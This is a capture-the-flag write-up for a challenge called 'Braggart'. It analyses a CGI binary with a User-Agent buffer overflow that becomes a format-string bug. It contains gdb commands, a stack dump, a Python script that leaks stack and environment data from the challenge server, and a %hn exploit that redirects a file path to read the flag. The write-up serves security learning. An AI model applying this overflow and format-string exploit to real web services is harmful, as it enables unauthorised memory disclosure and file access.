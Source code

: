 # Braggart

For this challenge, a binary and an URL were provided:

![web](./img/web.png)

```bash
$ file sec.bak
sec.bak: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=938da16dc1750d2efaaf4a3abc0e70ea1dea0020, for GNU/Linux 3.2.0, not stripped
```

Analysing the binary, we can spot some vulnerabilities and hidden features:

![main](./img/main.png)



The main function check for an "X-PASSWORD" header and compare its value to the environnement variable "AdminPass", if it's equal, it call the printSecret functions, otherwise, printMain is called.

The main function show that a debug feature can be triggered by passing the "X-DEBUG" header value to 1 when performing HTTP request.
This function prints remote IP address and User Agent information when called.

A buffer overflow can be spotted in the printDebug function:

![debug](./img/debug.png)

Indeed, the value of the User-Agent header is copied without size control. Since stack cookie is present, we cannot overwrite the return address, let's see what we can do.
The following command line is used to debug the program:

```bash
$ QUERY_STRING=TEST REQUEST_METHOD=GET HTTP_X_DEBUG=1 AdminPass=test HTTP_X_PASSWORD=notpassword CONTENT_LENGTH=40 workingDir=/home/ctf/
REMOTE_ADDR=1.1.1.1 HTTP_USER_AGENT=chromium gdb ./sec.bak ; echo
```

A breakpoint is set to the second strcpy call:
![bp](./img/bp.png)

```bash
pwndbg> x/200gx 0x7fffffffd4c0
0x7fffffffd4c0:	0x00312e312e312e31	0x0000000000000000
...
0x7fffffffd860:	0x0000000000021000	0xb21f90d4859a1100 <-- canary
0x7fffffffd870:	0x000000000000060f	0x0000000000000290
0x7fffffffd880:	0x00007ffff7df6c80	0x0000000000000280
0x7fffffffd890:	0x0000000000000029	0xffffffffffffffc0
0x7fffffffd8a0:	0x00007ffff7df6ce0	0x00007ffff7c9eb80
0x7fffffffd8b0:	0x0000000000007325	<--- format
0x7fffffffd8c0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8d0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8e0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8f0:	0x0000000000000000	0x0000000000000000
```
Some .text address, the stack cookie value AND, the format used to print out the User-Agent data are present on the stack. That means that the buffer overflow can be used to trigger a format string bug vulnerability.
Such a bug will be usefull to leak memory and overwrite some locations.

For example, the stack can be read using the leak.py script:

```python
from pwn import *
import requests
import sys

url = "https://nessus-braggart.chals.io/sec.cgi"

for i in range(int(sys.argv[1]),int(sys.argv[2])):
index = bytes(str(i),'utf-8')
header = {"User-Agent":cyclic(1008)+b"%"+index+b"$"+bytes(sys.argv[3],'utf-8'),"X-DEBUG":"1"}
r = requests.get(url, headers=header)
if "Internal Server Error" in r.text:
log.info("Fail to read offset")
continue
res = r.text.split("User Agent : </h3>")[1].split("</pre>")[0]
print(res)
```
The password is obtained by leaking environnement variables:

![leak](./img/leak.png)

Let's get the flag !

![nottheflag](./img/nottheflag.png)

... Let's analyse the printSecret function:

![secrets](./img/secrets.png)

The full path which is opened is build in two parts, first, the program get the workingDir environnement variable, then concat the word "brag" to it.

Since we control a format string bug, it is possible to overwrite "brag" with "flag" and get the flag !

To perform such an exploit, the "brag" string pointer offset is needed, let's fuzz again but withing the "printSecret" function (which call the printDebug and trig the overflow).

```
...
260 -> (null)
261 -> (null)
262 -> (null)
[*] Fail to read offset
264 -> À9°ý\x7f                                        \x05Y\x0b
266 ->
267 -> brag
268 -> /home/ctf/
269 ->
```

String "brag" is identified at offset 267. Now, the only thinkg to do is to overwrite 2 bytes "br" with "fl", and the final path will be /home/ctf/flag.

```python
from pwn import *
import requests

url = "https://nessus-braggart.chals.io/sec.cgi"

password = "xbYP3h7Ua94c" # This was added after fuzzing

header = {"User-Agent":cyclic(1008)+b"%27750x%267$hn","X-DEBUG":"1","X-PASSWORD":password} # 27750 -> '0x6c66' --> lf
r = requests.get(url, headers=header)
print(r.text)
```
```
flag{f0rmat_th3m_str1ngz}
```


